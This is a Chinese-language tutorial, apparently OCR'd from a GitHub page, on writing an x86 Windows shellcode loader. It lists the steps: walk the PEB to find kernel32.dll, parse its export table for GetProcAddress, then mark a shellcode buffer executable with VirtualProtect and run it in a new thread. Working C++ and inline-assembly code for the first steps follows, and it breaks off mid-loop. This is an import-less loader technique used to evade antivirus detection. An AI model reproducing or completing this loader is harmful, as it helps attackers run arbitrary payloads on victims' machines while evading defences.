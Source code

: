 
## 实现思路

- 定位关键模块：首先找到包含核心API函数的关键模块（如kernel32.dll）。这通常可以通过解析PEB（Process Environment Block）中的模块列表来完成。
- 获取GetProcAddress：定位到kernel32.dll后，需要解析导出表（Export Table）以获取GetProcAddress函数的地址。GetProcAddress是一个核心函数，用于在运行时动态解析其他API函数的地址。
- 加载其他API：通过GetProcAddress函数，可以逐个获取其他需要的API函数的地址。例如，可以通过GetProcAddress获取VirtualProtect、CreateThread和WaitForSingleObject等函数的地址。
- 准备Shellcode：将Shellcode存储在缓冲区中，使用VirtualProtect函数将缓冲区的内存页属性更改为可执行，以确保可以安全地执行Shellcode。
- 创建线程并执行Shellcode：使用CreateThread函数创建一个新线程，并将Shellcode的地址作为线程的启动例程。线程创建后，使用WaitForSingleObject等待线程执行完成



## x86代码实现

```cpp
#include <stdio.h>
#include <windows.h>

//声明定义api函数
typedef FARPROC(WINAPI* p_GetProcAddress)(_In_ HMODULE hModule, _In_ LPCSTR lpProcName);
typedef HMODULE(WINAPI* p_LoadLibraryA)(__in LPCSTR lpLibFileName);
typedef BOOL(WINAPI* p_VirtualProtect)(LPVOID, DWORD, DWORD, PDWORD);
typedef HANDLE(WINAPI* p_CreateThread)(LPSECURITY_ATTRIBUTES, SIZE_T, LPTHREAD_START_ROUTINE, LPVOID, DWORD, LPDWORD);
typedef DWORD(WINAPI* p_WaitForSingleObject)(HANDLE, DWORD);


// 内联汇编函数，用于获取Kernel32.dll模块的基地址
HMODULE inline __declspec(naked) GetKernel32Moudle()
{
    __asm
    {
        mov eax, fs: [0x30] ;
        mov eax, [eax + 0xc];
        mov eax, [eax + 0x14]
            mov eax, [eax];
        mov eax, [eax];
        mov eax, [eax + 0x10];
        ret;
    }
}

//获取GetProcAddress函数的地址
DWORD pGetProcAddress(HMODULE Kernel32Base) {
    char szGetProcAddr[] = { 'G','e','t','P','r','o','c','A','d','d','r','e','s','s',0 };
    DWORD result = NULL;

    // 遍历kernel32.dll的导出表，找到GetProcAddr函数地址
    PIMAGE_DOS_HEADER pDosHead = (PIMAGE_DOS_HEADER)Kernel32Base;
    PIMAGE_NT_HEADERS pNtHead = (PIMAGE_NT_HEADERS)((DWORD)Kernel32Base + pDosHead->e_lfanew);
    PIMAGE_OPTIONAL_HEADER pOptHead = (PIMAGE_OPTIONAL_HEADER)&pNtHead->OptionalHeader;
    PIMAGE_EXPORT_DIRECTORY pExport = (PIMAGE_EXPORT_DIRECTORY)((DWORD)Kernel32Base + pOptHead->DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress);
    DWORD* pAddOfFun_Raw = (DWORD*)((DWORD)Kernel32Base + pExport->AddressOfFunctions);
    WORD* pAddOfOrd_Raw = (WORD*)((DWORD)Kernel32Base + pExport->AddressOfNameOrdinals);
    DWORD* pAddOfNames_Raw = (DWORD*)((DWORD)Kernel32Base + pExport->AddressOfNames);
    char* pFinded = NULL, * pSrc = szGetProcAddr;
    for (DWORD dwCnt = 0; dwCnt < pExport->NumberOfNames; dwCnt++)
    {
        pFinded = (char*)((DWORD)Kernel32Base + pAddOfNames_Raw[dwCnt]);
        while (*pFinded && *pFinded == *pSrc)
        {
```